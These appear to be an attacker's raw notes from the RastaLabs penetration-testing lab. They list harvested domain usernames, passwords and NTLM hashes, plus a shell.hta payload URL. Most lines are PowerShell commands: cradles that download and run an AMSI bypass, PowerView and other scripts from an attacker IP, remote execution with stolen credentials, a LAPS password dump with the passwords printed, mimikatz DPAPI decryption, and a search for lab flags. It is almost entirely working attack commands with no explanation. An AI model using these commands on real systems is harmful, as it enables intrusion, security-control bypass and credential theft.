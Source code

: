 RLAB\AHope : Summer2022
RLAB\NGodfrey : zaq123$%^&*()_+
http://10.10.15.131/shell.hta

iex(iwr 10.10.15.131/amsi.txt -usebasicparsing);iex(iwr 10.10.15.131/PowerView.ps1 -usebasicparsing)
iex(iwr 10.10.15.131/amsi.txt -usebasicparsing);iex(iwr 10.10.15.131/PowerUpSQL.ps1 -usebasicparsing)
iex(iwr 10.10.15.131/kt.ps1);iex(iwr 10.10.15.131/kpc.ps1)

$secpassword = convertto-securestring "zaq123$%^&*()_+" -asplaintext -force
$cred = new-object system.management.automation.pscredential('RLAB\ngodfrey', $secpassword)
invoke-command -computername ws05.rastalabs.local -credential $cred -scriptblock {ipconfig}
invoke-command -session $sess -scriptblock {

ngodfrey_adm : J5KCwKruINyCJBKd1dZU
b
$secpassword = convertto-securestring "J5KCwKruINyCJBKd1dZU" -asplaintext -force;$cred = new-object system.management.automation.pscredential('RLAB\ngodfrey_adm', $secpassword)
Get-DomainObject -Identity ws01,ws02,ws03,ws04,ws05,ws06 -credential $cred|select name,ms-mcs-admpwd
WS01 mtU1l18l        
WS02 bPhQ2DQN                
WS03 iZkiX2A7            
WS04 5oPoIKGF                
WS05 UbX0W660            
WS06 bWWHN5Sv 

$secpassword = convertto-securestring "0S86gmbr" -asplaintext -force
$cred = new-object system.management.automation.pscredential('ws01\administrator', $secpassword)
invoke-command -computername ws01 -credential $cred -scriptblock {ipconfig}

epugh 326457b72c3f136d80d99bdbb935d109 Sarah2017
epugh_adm IReallyH8LongPasswords!
tquinn 74b0ecaa5aafed9d630b5d71ca7fdaaa

rweston_da 3ff61fa259deee15e4042159d7b832fa

dpapi::cred /in:c:\users\epugh\appdata\local\microsoft\credentials\936A68B5AC87C545C4A22D1AF264C8E9 /masterkey:40fc84e4d4f44f01c8d4fb8dccc8da37bbada94ecb374e813c46b03e0cd35fd4d285b5826a411fc6d3cf382d4f3aa6010ea3cae8a8a11fd4b375908e6ca17067

$secpassword = convertto-securestring "Sarah2017" -asplaintext -force;$cred = new-object system.management.automation.pscredential('RLAB\epugh', $secpassword)

$secpassword = convertto-securestring "IReallyH8LongPasswords!" -asplaintext -force;$cred = new-object system.management.automation.pscredential('RLAB\epugh_adm', $secpassword)

Get-ChildItem -Recurse -File | where { Select-String -Path $_ -List -Pattern "RASTA{" }
